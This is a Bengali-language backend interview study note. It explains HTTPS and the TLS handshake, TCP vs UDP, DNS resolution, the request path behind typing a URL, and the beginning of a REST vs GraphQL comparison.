# Backend Concepts: Interview + Senior-Level Notes

এই নোটটা backend interview, system design, production debugging, এবং senior-level thinking মাথায় রেখে সাজানো। প্রতিটি concept-এ শুধু definition না, বরং কীভাবে কাজ করে, কোথায় ব্যবহার হয়, common mistake কী, এবং interview-তে কীভাবে explain করতে হয় সেটা রাখা হয়েছে।

## 1. HTTP vs HTTPS

### Core Idea

- **HTTP (HyperText Transfer Protocol):** Client এবং server-এর মধ্যে request-response communication-এর জন্য ব্যবহৃত application-layer protocol। এটি stateless (প্রতিটি রিকোয়েস্ট সম্পূর্ণ স্বাধীন) এবং ডিফল্টভাবে ডেটা Plain Text (unencrypted) আকারে আদান-প্রদান করে।
- **HTTPS (HTTP Secure):** HTTP-এর সুরক্ষিত সংস্করণ, যেখানে HTTP traffic TLS/SSL (Transport Layer Security) প্রোটোকল দিয়ে encrypted থাকে। এটি HTTP এবং TCP লেয়ারের মাঝে একটি সিকিউরিটি লেয়ার যোগ করে।

```text
[ Application Layer: HTTP ]
           ↓
[ Security Layer: TLS ]  <-- HTTPS-এর মূল ম্যাজিক
           ↓
[ Transport Layer: TCP ]
```

### HTTPS কীভাবে কাজ করে (TLS 1.3 Handshake Flow)

Modern HTTPS-এ মূলত **TLS 1.3** ব্যবহৃত হয়, যা মাত্র **1 RTT (Round Trip Time)**-এ হ্যান্ডশেক সম্পন্ন করে (TLS 1.2-এ 2 RTT লাগতো)। নিচে এর বিস্তারিত ধাপ এবং ভিজ্যুয়ালাইজেশন দেওয়া হলো:



1. **ClientHello:** ক্লায়েন্ট সার্ভারকে বলে, "আমি এই TLS ভার্সন (যেমন TLS 1.3) এবং এই Cipher Suites (গোপন সংকেতের তালিকা) সাপোর্ট করি।" একই সাথে ক্লায়েন্ট তার নিজস্ব Key Share পাঠিয়ে দেয়।
2. **ServerHello & Key Exchange:** সার্ভার তার TLS ভার্সন এবং Cipher সিলেক্ট করে। নিজের Key Share, SSL Certificate, এবং `CertificateVerify` সিগনেচার ক্লায়েন্টকে পাঠায়।
3. **Authentication:** ব্রাউজার তার প্রি-ইনস্টলড Root Certificate Authority (CA) লিস্ট দিয়ে সার্ভারের সার্টিফিকেটটি যাচাই করে।
4. **Symmetric Encryption Activation:** ক্লায়েন্ট ও সার্ভার উভয়ই Diffie-Hellman Key Exchange মেকানিজম ব্যবহার করে একটি কমন **Session Key** তৈরি করে। হ্যান্ডশেকের পর পরবর্তী সকল ডেটা এই Session Key দিয়ে **Symmetric Encryption (যেমন AES-GCM)** এর মাধ্যমে ট্রান্সফার হয়, যা অত্যন্ত ফাস্ট।

> [!NOTE]
> **Hybrid Encryption Model:** HTTPS মূলত Asymmetric (Public-Private Key) এবং Symmetric Encryption-এর একটি হাইব্রিড মডেল ব্যবহার করে। Asymmetric Encryption কম্পিউটেশনালি স্লো, তাই এটি শুধুমাত্র হ্যান্ডশেক এবং কী-এক্সচেঞ্জের জন্য ব্যবহৃত হয়। আসল ডেটা আদান-প্রদান হয় ফাস্ট Symmetric Encryption দিয়ে।

### HTTPS কী যোগ করে

TLS লেয়ার মূলত ৩টি সিকিউরিটি পিলার দেয়:
1. **Encryption (গোপনকারীতা):** মাঝপথে কেউ প্যাকেট স্নীফ বা ক্যাচ (MitM Attack) করলেও ডেটা পড়তে পারবে না, কারণ তা ক্রিপ্টোগ্রাফিক্যালি ইনক্রিপ্টেড।
2. **Integrity (অখণ্ডতা):** ট্রানজিট চলাকালীন ডেটাতে কোনো পরিবর্তন (Tampering) করা হয়েছে কিনা তা Message Authentication Code (MAC) দিয়ে ডিটেক্ট করা যায়।
3. **Authentication (সত্যতা):** ক্লায়েন্ট নিশ্চিত হয় সে আসল ডোমেইনের সার্ভারের সাথে কথা বলছে, কোনো স্পুফড সার্ভারের সাথে নয়।

### Senior Insight

- **Server Name Indication (SNI):** একটি আইপি অ্যাড্রেসে যদি একাধিক ডোমেইন হোস্ট করা থাকে (Virtual Hosting), তবে হ্যান্ডশেকের শুরুতেই ক্লায়েন্ট SNI হেডার পাঠায় যাতে সার্ভার সঠিক ডোমেইনের সার্টিফিকেট রিটার্ন করতে পারে।
- **Perfect Forward Secrecy (PFS):** যদি ভবিষ্যতে কোনোভাবে সার্ভারের প্রাইভেট কী (Private Key) লিক হয়ে যায়, তাও হ্যাকাররা আগের রেকর্ড করা কোনো ট্রাফিকের ডেটা ডিক্রিপ্ট করতে পারবে না। কারণ PFS প্রতি সেশনের জন্য সম্পূর্ণ আলাদা, ডায়নামিক কি জেনারেট করে।
- **HTTP/2 & HTTP/3 Requirement:** আধুনিক প্রোটোকল যেমন HTTP/2 এবং HTTP/3 (QUIC) ব্রাউজার লেভেলে HTTPS ছাড়া কাজ করে না। তাই পারফরম্যান্স অপটিমাইজেশনের জন্যও HTTPS আবশ্যিক।
- **TLS Termination Placement:** লার্জ স্কেল আর্কিটেকচারে TLS Termination কোথায় হবে তা একটি গুরুত্বপূর্ণ সিদ্ধান্ত। সাধারণত এটি CDN (Cloudflare) অথবা Load Balancer/API Gateway লেভেলে করা হয় যাতে ভেতরের মাইক্রোসার্ভিসগুলোতে এক্সট্রা ডিক্রিপশন ওভারহেড না থাকে (যদিও mTLS ব্যবহার করা হয়)।

### Common Mistakes

- **Assuming HTTPS makes the app 100% Secure:** HTTPS শুধুমাত্র ট্রান্সপোর্ট সিকিউরিটি দেয়। অ্যাপ্লিকেশনের বাগ যেমন SQL Injection, XSS, বা CSRF প্রতিরোধে এটি কোনো কাজ করে না।
- **Expired Certificates:** প্রোডাকশনে সার্টিফিকেট অটো-রিনিউয়াল (যেমন Let's Encrypt / Certbot) সেট না রাখলে হঠাৎ সাইট ডাউন হয়ে বড় ধরনের সার্ভিস বিভ্রাট হতে পারে।
- **Mixed Content:** HTTPS পেজের ভেতর কোনো ইমেজ বা এপিআই যদি HTTP-তে লোড করা হয়, তবে ব্রাউজার সিকিউরিটি ওয়ার্নিং দেখাবে অথবা ব্লকেড তৈরি করবে।

### Interview Angle

> "HTTP হলো একটি প্লেইন টেক্সট প্রোটোকল যা সম্পূর্ণ আন-এনক্রিপ্টেড। HTTPS হলো HTTP over TLS, যা ট্রাফিকের Encryption, Integrity এবং Authentication নিশ্চিত করে। আধুনিক প্রোডাকশন সিস্টেমে এটি শুধুমাত্র সিকিউরিটির জন্য নয়, বরং HTTP/2 ও HTTP/3 প্রোটোকল ব্যবহারের সুবিধা এবং ব্রাউজার ট্রাস্টের জন্যও বাধ্যতামূল্ক। সিকিউরিটি হ্যান্ডশেক অপটিমাইজেশনের জন্য আধুনিক সিস্টেমে TLS 1.3 ও Perfect Forward Secrecy (PFS) এনাবল রাখা উচিত।"


## 2. TCP vs UDP

### Core Idea

- **TCP (Transmission Control Protocol):** এটি একটি Connection-Oriented, অত্যন্ত নির্ভরযোগ্য এবং অর্ডারড ট্রান্সপোর্ট লেয়ার প্রোটোকল। ডেটা পাঠানোর আগে থ্রি-ওয়ে হ্যান্ডশেক করে কানেকশন নিশ্চিত করে।
- **UDP (User Datagram Protocol):** এটি একটি Connectionless, লাইটওয়েট এবং অত্যন্ত ফাস্ট প্রোটোকল। এটি কোনো কানেকশন স্টাবলিশ না করেই ডেটা প্যাকেট (Datagram) ছুঁড়ে দেয় (Fire-and-Forget)।

### TCP ও UDP-এর তুলনামূলক মেকানিজম

নিচে TCP-এর থ্রি-ওয়ে হ্যান্ডশেক এবং রিলাইয়েবল ট্রান্সমিশন বনাম UDP-এর সরাসরি ডেটা পাঠানোর চিত্র দেওয়া হলো:



### TCP-এর মূল বৈশিষ্ঠ্যসমূহ

1. **3-Way Handshake:** কানেকশন তৈরি করতে `SYN` -> `SYN-ACK` -> `ACK` ফ্লো ব্যবহার করে।
2. **Ordered Delivery:** ডেটা প্যাকেটগুলো যেভাবে পাঠানো হয়েছে, রিসিভারের কাছে ঠিক সেভাবেই সাজানো হবে (Sequence Numbers ব্যবহার করে)।
3. **Flow Control:** রিসিভারের প্রসেসিং স্পিড অনুযায়ী সেন্ডারের স্পিড কন্ট্রোল করে যাতে রিসিভার ডেটা হ্যান্ডেল করতে পারে (Sliding Window মেকানিজম)।
4. **Congestion Control:** নেটওয়ার্কের জ্যামের ওপর ভিত্তি করে প্যাকেট পাঠানোর হার ডায়নামিকালি পরিবর্তন করে।
5. **Retransmission:** যদি কোনো প্যাকেট হারিয়ে যায় (Packet Loss), TCP সেটি অটোমেটিক পুনরায় পাঠায় (Automatic Repeat Request - ARQ)।

### UDP-এর মূল বৈশিষ্ঠ্যসমূহ

1. **No Handshake:** কোনো হ্যান্ডশেক বা স্ট্যাটাস মেইনটেইন করার ঝামেলা নেই।
2. **Low Latency:** প্রোটোকল ওভারহেড একদমই কম হওয়ায় এটি অত্যন্ত দ্রুত কাজ করে।
3. **No Ordering or Retry:** প্যাকেট হারিয়ে গেলে বা এলোমেলোভাবে পৌঁছালে UDP নিজে কোনো ফিক্স করে না।
4. **Unicast/Multicast/Broadcast:** এটি সহজে মাল্টিকাস্ট এবং ব্রডকাস্ট সাপোর্ট করে।

### কোথায় কোনটা ব্যবহার করা হয়?

| প্রোটোকল | ব্যবহারের ক্ষেত্র (Use Cases) | উদাহরণ |
| :--- | :--- | :--- |
| **TCP** | যেখানে নিখুঁত ডেটা ডেলিভারি এবং সঠিক সিকোয়েন্স আবশ্যক। | HTTP/1.1, HTTP/2, Database Queries (Postgres/MySQL), SSH, File Transfer (FTP), SMTP |
| **UDP** | যেখানে রিয়েল-টাইম স্পিড দরকার এবং ২/১ টা প্যাকেট লস হলে সমস্যা নেই। | VoIP (Voice Calls), Video Streaming (WebRTC), Live Gaming, DNS Lookup, HTTP/3 (QUIC) |

### Senior Insight

- **Head-of-Line (HoL) Blocking:** এটি TCP-এর একটি বড় সমস্যা। TCP কানেকশনে যদি ১ নম্বর প্যাকেটটি লস হয়, তবে ২ এবং ৩ নম্বর প্যাকেট রিসিভারের কাছে রেডি থাকলেও সে অ্যাপ্লিকেশন লেয়ারে তা পাস করতে পারে না যতক্ষণ না ১ নম্বর প্যাকেটটি রিট্রান্সমিট হয়ে পৌঁছায়।
- **HTTP/3 & QUIC:** এই HoL Blocking সমস্যা দূর করতেই **HTTP/3** তৈরি হয়েছে **QUIC** প্রোটোকলের ওপর ভিত্তি করে, যা আসলে **UDP** ব্যবহার করে চলে। QUIC নিজে অ্যাপ্লিকেশন লেয়ারে মাল্টিপ্লেক্সিং ও নির্ভরযোগ্যতা যোগ করে নেটওয়ার্ক সুইচিংকে (যেমন Wifi থেকে 4G) অত্যন্ত স্মুথ করে।

### Common Mistakes

- **Thinking UDP is always "Bad" or "Unusable":** নেটওয়ার্ক লেভেলের নির্ভরযোগ্যতা যদি দরকার না হয়, অথবা আমরা যদি অ্যাপ্লিকেশন লেয়ারে কাস্টম রিলায়েবিলিটি বানাতে পারি (যেমন QUIC করে), তবে UDP অনেক বেশি এফিশিয়েন্ট।
- **Using TCP for Real-time Gaming:** রিয়েল-টাইম গেমিংয়ে মিলি-সেকেন্ডের হিসেব থাকে। সেখানে হারিয়ে যাওয়া পুরনো প্যাকেট রিট্রাই করার চেয়ে নতুন প্যাকেট রিসিভ করা বেশি জরুরি। গেমিংয়ে TCP ব্যবহার করলে লেটেন্সি স্পাইক (Lag) হবে।

### Interview Angle

> "TCP হলো একটি নির্ভরযোগ্য ও অর্ডারড প্রোটোকল যা ডেটা লস ছাড়াই ডেলিভারি নিশ্চিত করে। অপরদিকে UDP হলো একটি কানেকশনলেস, লাইটওয়েট প্রোটোকল যা মিনিমাম লেটেন্সিতে ডেটা ট্রান্সফার করে। ডেটাবেস কানেকশন বা জেনারেল এপিআই-এর জন্য TCP আবশ্যক। কিন্তু ভিডিও স্ট্রিমিং, গেমস এবং আধুনিক HTTP/3 প্রোটোকলে স্পিডের জন্য UDP ব্যবহৃত হয়।"


## 3. DNS Resolution Flow

### Core Idea

**DNS (Domain Name System):** হলো ইন্টারনেটের ফোনবুক। এটি মানুষের বোঝার মতো ডোমেইন নেমকে (যেমন `example.com`) মেশিনের বোঝার মতো আইপি অ্যাড্রেসে (IP Address, যেমন `93.184.216.34`) রূপান্তর করে।

### Resolution Flow (ধাপসমূহ)

ইউজার যখন ব্রাউজারে `example.com` টাইপ করে, তখন আইপি খুঁজতে নিচের ফ্লোটি ঘটে:



1. **Browser & OS Cache Check:** ব্রাউজার প্রথমে তার নিজস্ব ক্যাশে দেখে। না পেলে ওএস (OS) ক্যাশ এবং লোকাল `hosts` ফাইল চেক করে।
2. **Recursive Resolver (ISP / Public DNS):** ক্যাশে না থাকলে রিকোয়েস্ট যায় Recursive Resolver-এর কাছে (যেমন আপনার আইএসপি-র ডিএনএস অথবা Cloudflare 1.1.1.1)। সে ইউজারের হয়ে পুরো ইন্টারনেটে ঘুরে আইপি খোঁজার দায়িত্ব নেয়।
3. **Root Name Server (`.`):** রিজলভার প্রথমে Root Server-কে জিজ্ঞেস করে। রুট সার্ভার আইপি জানে না, তবে সে বলে, ".com ডোমেইনটির জন্য অমুক TLD সার্ভারে যাও।"
4. **TLD Name Server (`.com`):** রিজলভার তখন TLD (Top-Level Domain) সার্ভারে যায়। TLD সার্ভার ডোমেইনের আসল আইপি না জানলেও সে Authoritative Name Server-এর (যেমন Cloudflare বা GoDaddy NS) ঠিকানা দেয়।
5. **Authoritative Name Server:** এটিই শেষ গন্তব্য। এই সার্ভার ডোমেইনের আসল আইপি (A Record) জানে। রিজলভারকে আইপি রিটার্ন করে।
6. **Result & Cache:** রিজলভার আইপিটি ওএস এবং ব্রাউজারকে দেয় এবং ভবিষ্যতে দ্রুত খোঁজার জন্য নির্দিষ্ট সময়ের (TTL) জন্য ক্যাশ করে রাখে।

### DNS Record Types (গুরুত্বপূর্ণ রেকর্ডসমূহ)

- **A Record:** ডোমেইন থেকে IPv4 অ্যাড্রেস ম্যাপ করে (যেমন `example.com -> 93.184.216.34`)।
- **AAAA Record:** ডোমেইন থেকে IPv6 অ্যাড্রেস ম্যাপ করে।
- **CNAME (Canonical Name):** একটি ডোমেইনকে অন্য ডোমেইনের এলিয়াস হিসেবে সেট করে (যেমন `www.example.com -> example.com`)।
- **MX Record (Mail Exchange):** ইমেইল সার্ভারের আইপি বা ডোমেইন নির্ধারণ করে।
- **TXT Record:** ভেরিফিকেশন এবং সিকিউরিটি পলিসি (যেমন SPF, DKIM, DMARC) সংরক্ষণের জন্য প্লেইন টেক্সট রেকর্ড।
- **NS Record (Name Server):** ডোমেইনের অথরিটেটিভ নেম সার্ভারগুলোর লিস্ট দেখায়।

### TTL (Time To Live) কী এবং এর গুরুত্ব

TTL নির্দেশ করে একটি ডিএনএস রেকর্ড কত সেকেন্ড ক্যাশে সংরক্ষিত থাকবে।
- **Low TTL (যেমন ৬০ সেকেন্ড):** ডিএনএস চেঞ্জ খুব দ্রুত প্রোপাগেট বা কার্যকর হয়। সার্ভার মাইগ্রেশনের সময় এটি করা হয়। তবে এতে ডিএনএস কুয়েরি ট্রাফিক ও লেটেন্সি বাড়ে।
- **High TTL (যেমন ৮৬৪০০ সেকেন্ড বা ১ দিন):** কুয়েরি অনেক কমে যায় এবং স্পিড বাড়ে। তবে আইপি পরিবর্তন করলে তা সবার কাছে কার্যকর হতে অনেক সময় নেয়।

### Senior Insight (Production Migration Strategy)

সার্ভার আইপি পরিবর্তন বা ক্লাউড মাইগ্রেশনের সময় বড় ধরনের আউটগ্রেজ এড়াতে **"TTL Reduction Strategy"** ফলো করা হয়:
1. মাইগ্রেশনের অন্ততঃ ১-২ দিন আগে TTL কমিয়ে ৩০০ বা ৬০ সেকেন্ডে আনা হয়।
2. আগের আইপিগুলোর ক্যাশ এক্সপায়ার হওয়া নিশ্চিত করা হয়।
3. মাইগ্রেশনের দিন নতুন আইপি সেট করা হয়, যা উইদিন মিনিট কার্যকর হয়ে যায়।
4. মাইগ্রেশন সফল হওয়ার পর আবার TTL বাড়িয়ে নরমাল (যেমন ৮৬৪০০ সেকেন্ড) করে দেওয়া হয়।

> [!TIP]
> ডিএনএস ইস্যু বা প্রোপাগেশন ডিবাগ করতে সিনিয়র ইঞ্জিনিয়াররা `dig` বা `nslookup` কমান্ড ব্যবহার করেন:
> ```bash
> dig +trace example.com  # পুরো রেজোলিউশন চেইন ট্র্যাক করার জন্য
> ```

### Common Mistakes

- **Not planning TTL for migrations:** ক্যাশ এক্সপায়ার হওয়ার সময় না দিয়ে সরাসরি আইপি চেঞ্জ করলে অনেক ইউজারের কাছে সাইট ডাউন দেখাবে কারণ তাদের ক্যাশে পুরনো আইপি রয়ে গেছে।
- **Root Domain CNAME Limitations:** স্ট্যান্ডার্ড ডিএনএস স্পেসিফিকেশন অনুযায়ী রুট ডোমেইনে (যেমন `example.com`) CNAME ব্যবহার করা যায় না (এটি অন্য এন্ট্রি ব্লক করে)। সেখানে `ALIAS` বা `ANAME` রেকর্ড ব্যবহার করতে হয় যা প্রোভাইডার ভেদে ভিন্ন হতে পারে।

### Interview Angle

> "DNS হলো ডোমেইন থেকে আইপি রেজোলিউশনের একটি হায়ারার্কিকাল ডিস্ট্রিবিউটেড ডাটাবেস। রেজোলিউশন ফ্লোতে লোকাল ক্যাশ, রিকার্সিভ রিজলভার এবং রুট, টিএলডি ও অথরিটেটিভ সার্ভারগুলোর চেইন জড়িত থাকে। প্রোডাকশন আর্কিটেকচারে ডিএনএস রাউটিং পলিসি (যেমন Geolocation Routing) ব্যবহার করে ইউজারকে সবচেয়ে কাছের সার্ভারে পাঠানো যায়। এছাড়া মাইগ্রেশনের সময় TTL স্ট্র্যাটেজি ঠিক রাখা ক্রিটিক্যাল।"


## 4. What Happens When You Type a URL

### Core Idea

এই ক্লাসিক ইন্টারভিউ প্রশ্নটি মূলত প্রার্থীর এন্ড-টু-এন্ড সিস্টেম থিংকিং (System Thinking) এবং নেটওয়ার্কিং, সিকিউরিটি, ও ব্যাকএন্ড আর্কিটেকচার নলেজ যাচাই করতে ব্যবহৃত হয়।

### High-Level Flow (ভিজ্যুয়ালাইজেশন)

ইউজার ব্রাউজারে `https://example.com/products` টাইপ করলে কী ঘটে, তার সম্পূর্ণ চিত্র নিচে দেওয়া হলো:



### Detailed Execution Steps

#### ১. URL Parsing & Browser Actions
- ব্রাউজার প্রোটোকল/স্কিম (`https`), হোস্ট বা ডোমেইন (`example.com`), এবং পাথ (`/products`) আলাদা করে।
- ব্রাউজার দেখে যে URL-টি HSTS (HTTP Strict Transport Security) লিস্টে আছে কিনা, থাকলে সে জোরপূর্বক HTTP-কে HTTPS-এ কনভার্ট করে।

#### ২. DNS Resolution
- ব্রাউজার দেখে এই ডোমেইনের আইপি তার ক্যাশে আছে কিনা। না থাকলে DNS রেজোলিউশন ফ্লো চালিয়ে অথরিটেটিভ সার্ভার থেকে আইপি সংগ্রহ করে।

#### ৩. TCP & TLS Connection
- আইপি পাওয়ার পর ব্রাউজার সার্ভারের সাথে **TCP 3-Way Handshake** করে কানেকশন স্টাবলিশ করে।
- কানেকশন সিকিউর করতে **TLS 1.3 Handshake** চালায় এবং সিমেট্রিক এনক্রিপশন কী সেটআপ করে।

#### ৪. Sending the HTTP Request
- ব্রাউজার একটি স্ট্যান্ডার্ড HTTP GET রিকোয়েস্ট তৈরি করে সার্ভারে পাঠায়:
  ```http
  GET /products HTTP/1.1
  Host: example.com
  User-Agent: Mozilla/5.0 ...
  Accept: text/html
  ```

#### ৫. Traffic Routing (Network & Gateways)
- রিকোয়েস্টটি ইন্টারনেটের রাউটারগুলোর মধ্য দিয়ে গিয়ে প্রথমে **CDN (যেমন Cloudflare Edge)**-এ হিট করে। যদি স্ট্যাটিক রিসোর্স হয় তবে CDN থেকেই রিটার্ন করে।
- CDN থেকে ট্রাফিক যায় **WAF (Web Application Firewall)**-এ যা মূলত SQL Injection, DDoS, বা ক্ষতিকর ট্রাফিক ফিল্টার করে।
- এরপর **Load Balancer (Nginx/AWS ALB)** রিকোয়েস্ট রিসিভ করে এবং কনফিগারেশন অনুযায়ী সঠিক ব্যাকএন্ড **API Gateway** বা মাইক্রোসার্ভিসে রাউট করে।
- মাইক্রোসার্ভিসে রাউটিংয়ের পর **API Gateway (যেমন Kong/Apigee)** এটি রিসিভ করে।

#### ৬. Backend Processing
- **Authentication & Authorization:** এপিআই গেটওয়ে বা মিডলওয়্যার চেক করে ইউজারের সেশন/টোকেন ভ্যালিড কিনা এবং সে এই এপিআই অ্যাক্সেস করতে পারবে কিনা।
- **Rate Limiting:** ইউজারের রিকোয়েস্ট রেট লিমিটের মধ্যে আছে কিনা তা যাচাই করে।
- **Cache Check:** রিকোয়েস্টেড ডেটা কি Redis-এ ক্যাশ করা আছে? থাকলে ডাটাবেস এভোয়েড করে রিড করা হয়।
- **Business Logic & Database:** ক্যাশে না থাকলে কোর অ্যাপ্লিকেশন বিজনেস লজিক রান করে এবং ডাটাবেসে (Postgres/MySQL) কুয়েরি করে ডেটা নিয়ে আসে।
- **Response Generation:** প্রাপ্ত ডেটা সাধারণত JSON বা HTML পেজ আকারে রেসপন্স বডিতে পাঠানো হয় (Status `200 OK`)।

#### ৭. Browser Rendering
- ব্রাউজার রেসপন্স বডি থেকে HTML পার্স করে **DOM (Document Object Model)** ট্রি তৈরি করে।
- CSS এবং JS ফাইলগুলো ফেচ করে পার্স করে এবং স্টাইল রুলস অনুযায়ী **CSSOM** তৈরি করে।
- DOM এবং CSSOM একসাথে মার্জ করে **Render Tree** তৈরি হয়।
- ব্রাউজার স্ক্রিনে এলিমেন্টগুলোর পজিশন নির্ণয় করে (Layout/Reflow) এবং পিক্সেল ড্র করে পেজ রেন্ডার করে (Painting)।

### Senior Insight

বাস্তব প্রোডাকশন সিস্টেমে রিকোয়েস্ট ফ্লোতে **Keep-Alive** হেডার গুরুত্বপূর্ণ ভূমিকা রাখে। এটি প্রতিবার রিকোয়েস্টের জন্য নতুন করে TCP ও TLS হ্যান্ডশেক এড়াতে কানেকশন রিউজ (Connection Reuse) করে, যা লেটেন্সি উল্লেখযোগ্যভাবে কমিয়ে দেয়।

### Common Mistakes

- **Omitting TLS or CDN in explanation:** শুধুমাত্র "এপিআই সরাসরি ডাটাবেস কুয়েরি করে রেসপন্স পাঠায়" বললে সিস্টেম ডিজাইন সম্পর্কে অগভীর নলেজ প্রকাশ পায়। রিয়েল-ওয়ার্ল্ড ট্রাফিক রাউটিং এবং গেটওয়ের কথা বলা অত্যন্ত গুরুত্বপূর্ণ।
- **Assuming page is fully interactive instantly:** HTML রেন্ডার হওয়ার সাথে সাথেই পেজ ইন্টারঅ্যাক্টিভ হয় না। ব্যাকগ্রাউন্ডে জাভাস্ক্রিপ্ট ডাউনলোড এবং এক্সিকিউট হওয়া (Hydration) পর্যন্ত ওয়েট করতে হয়।

### Interview Angle

> "ইউজার যখন ইউআরএল টাইপ করে, ব্রাউজার প্রথমে ক্যাশ ও ডিএনএস রেজোলিউশন দিয়ে আইপি বের করে। এরপর TCP ও TLS হ্যান্ডশেক করে সিকিউর কানেকশন তৈরি করে। রিকোয়েস্টটি CDN, WAF এবং Load Balancer পেরিয়ে ব্যাকএন্ড সার্ভারে পৌঁছায়। ব্যাকএন্ডে Authentication, Rate Limiting, Business Logic এবং DB/Cache কুয়েরি শেষে রেসপন্স জেনারেট হয়। অবশেষে ব্রাউজার HTML, CSS এবং JS পার্স করে স্ক্রিনে রেন্ডার করে। পারফরম্যান্স বাড়াতে Connection Keep-Alive এবং CDN ক্যাশিং অত্যন্ত কার্যকরী।"


## 5. REST vs GraphQL

### Core Idea

- **REST (Representational State Transfer):** এটি একটি রিসোর্স-বেইজড আর্কিটেকচারাল স্টাইল। এখানে প্রতিটি রিসোর্সের জন্য আলাদা আলাদা নির্দিষ্ট ইউআরএল (Endpoints) এবং স্ট্যান্ডার্ড HTTP Methods (GET, POST, PUT, DELETE) ব্যবহৃত হয়।
- **GraphQL:** এটি একটি ক্লায়েন্ট-ড্রিভেন কোয়েরি ল্যাঙ্গুয়েজ এবং রানটাইম। ক্লায়েন্ট নিজেই একটি সিঙ্গেল এন্ডপয়েন্টে পোস্ট রিকোয়েস্ট পাঠিয়ে ঠিক করে দেয় তার কোন কোন ফিল্ড এবং ডাটা প্রয়োজন।

### ডেটা ফেচিং মেকানিজমের তুলনামূলক চিত্র



### REST-এর সুবিধা ও অসুবিধা

**সুবিধাসমূহ:**
- **Simple Caching:** স্ট্যান্ডার্ড HTTP GET ব্যবহার করায় ব্রাউজার, CDN এবং রিভার্স প্রক্সি লেভেলে ক্যাশিং করা খুবই সহজ।
- **Observability:** প্রতিটি পাথের জন্য আলাদা এপিআই হওয়ায় এপিএম টুলস (Datadog/NewRelic) দিয়ে মনিটরিং করা সহজ।
- **Standardized:** এপিআই ডিজাইন করা সহজ এবং ডিস্ট্রিবিউট করা ইন্ডাস্ট্রি-ওয়াইড ডেভেলপারদের কাছে অত্যন্ত পরিচিত।

